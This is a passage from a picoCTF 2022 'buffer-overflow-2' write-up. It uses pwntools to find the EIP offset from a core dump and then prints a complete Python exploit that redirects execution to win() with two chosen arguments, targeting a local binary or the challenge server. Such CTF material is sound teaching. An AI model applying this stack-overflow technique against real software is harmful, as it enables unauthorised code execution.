 [<span style="color:#277FFF"><b>*</b></span>] Process &apos;/home/kali/ctfs/pico22/buffer-overflow-2/vuln&apos; stopped with exit code -11 (SIGSEGV) (pid 2777)
<span class="meta prompt_">>>> </span>core = Corefile(&apos;./core&apos;)
[<span style="color:#9755B3">x</span>] Parsing corefile...
[<span style="color:#277FFF"><b>*</b></span>] &apos;/home/kali/ctfs/pico22/buffer-overflow-2/core&apos;
    Arch:      i386-32-little
    EIP:       0x62616164
    ESP:       0xffafca40
    Exe:       &apos;/home/kali/ctfs/pico22/buffer-overflow-2/vuln&apos; (0x8048000)
    Fault:     0x62616164
[<span style="color:#47D4B9"><b>+</b></span>] Parsing corefile...: Done
<span class="meta prompt_">>>> </span>cyclic_find(0x62616164)
112
</pre></td></tr></table></figure>

The next thing we need to know about is the way functions are laid out on the stack. Let's recall the diagram I drew out earlier:

![Stack Diagram](asset/pico22/buffer-overflow/stack-visual2.png)

If we want to call a function with parameters, we'll need to include the base pointer alongside a return address, which can simply be `main()`. With this, we can basically copy our script over from `Buffer overflow 1` with a few tweaks to the payload:

{% codeblock buffer-overflow-2.py lang:py https://gist.github.com/jktrn/c6c17fc63ca801d0b64d8bb5acc982c1 <span style="color:#82C4E4">[github gist link]</span> %}
#!/usr/bin/env python3
from pwn import *

elf = context.binary = ELF('./vuln', checksec=False)    # sets elf object
host, port = 'saturn.picoctf.net', [PORT]

p = process(elf.path)        # creates local process w/ elf object
p.sendline(cyclic(128))      # sends cyclic pattern to crash
p.wait()                     # sigsegv generates core dump
core = Coredump('./core')    # parses core dump file

payload = flat([
    {cyclic_find(core.eip): elf.symbols.win},    # pads win address
    elf.symbols.main,                            # return address
    0xCAFEF00D,                                  # parameter 1
    0xF00DF00D                                   # parameter 2
])

if args.REMOTE:
    p = remote(host, port)
else:
    p = process(elf.path)

p.sendline(payload)
p.interactive()
{% endcodeblock %}

Let's run it on the remote server:
